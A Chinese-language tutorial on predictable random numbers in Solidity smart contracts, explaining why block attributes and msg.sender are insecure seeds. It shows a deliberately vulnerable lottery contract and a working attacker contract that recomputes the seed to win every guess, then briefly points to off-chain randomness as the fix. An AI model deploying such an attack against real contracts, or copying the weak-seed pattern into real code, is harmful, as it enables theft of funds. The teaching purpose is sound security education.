描叙：智能合约开发中，在程序中使用随机数较好的伪随机数是很难的。很多看似无法被预言的随机数种子或变量，实际被预言的难度很低。

核心问题：一旦在智能合约中使用了随机性很差的随机数作为关键变量，就面临着随机数被预言的攻击风险

# **一些概念**

#### **智能合约常用的随机数计算方式**

>keccak256(seed)
#### **常用seed的选取：**

* **私有变量**
* **区块有关状态block.something**
* **msg.sender**
* **上述数据的哈希或者运算组合**
#### **常用的区块属性**

* **block.blockhash**
* **block.coinbase**
* **block.difficulty**
* **block.gaslimit**
* **block.number**
* **block.timestamp使用区块相关属性作为随机数种子，是一种常见但是非常不安全的方式，其不安全在于，这些数据对于同一个transaction中的合约调用是可预测的。**
### **msg.sender随机预测**

* **使用msg.sender做为随机数种子的安全风险在于，该数据是用户可控的。若随机数种子一旦可以被攻击者选择或控制，就会使随机数面临被预测的风险**
**漏洞合约分析**

```plain
pragma solidity ^0.4.24;
 
contract RandomGame{
    mapping (address => uint256) public balances;
     
    event LuckyLog(uint lucky_number, uint guess);
 
    function lucky(uint256 guess) public returns(uint256){
        uint256 seed = uint256(
        keccak256(abi.encodePacked(block.number)))
        +uint256(keccak256(abi.encodePacked(block.timestamp)));
        uint256 lucky_number = uint256(keccak256(abi.
        encodePacked(seed))) % 100;
        if(lucky_number == guess){
            balances[msg.sender] += 1000;
        }
        emit LuckyLog(lucky_number,guess);
        return lucky_number;
    }
}
```
**漏洞点：使用了不安全的block.number做为随机数的种子，导致随机数可以被预测，攻击者可以在合约中进行预测，造成一定损失**
**攻击者合约：**

```plain
pragma solidity ^0.4.24;
 
contract RandomGame{
    mapping (address => uint256) public balances;
     
    event LuckyLog(uint lucky_number, uint guess);
 
    function lucky(uint256 guess) public returns(uint256){
        uint256 seed = uint256(keccak256(abi.encodePacked(block.number)))+uint256(keccak256(abi.encodePacked(block.timestamp)));
        uint256 lucky_number = uint256(keccak256(abi.encodePacked(seed))) % 100;
        if(lucky_number == guess){
            balances[msg.sender] += 1000;
        }
        emit LuckyLog(lucky_number,guess);
        return lucky_number;
    }
}
 
contract AttackRandom{
    RandomGame rg;
     
    function setTarget(address _addr) public {
        rg=RandomGame(_addr);
    }
     
    function attack() public returns(uint256){
        uint256 seed = uint256(keccak256(abi.encodePacked(block.number)))+uint256(keccak256(abi.encodePacked(block.timestamp)));
        uint256 lucky_number = uint256(keccak256(abi.encodePacked(seed))) % 100;
        rg.lucky(lucky_number);
        return lucky_number;
    }
}
漏洞预防
使用Oraclize提供的一个合约接口库，
可以通过链下off-chain的数据流推送data-feed来提供与链状态无关的随机数
```
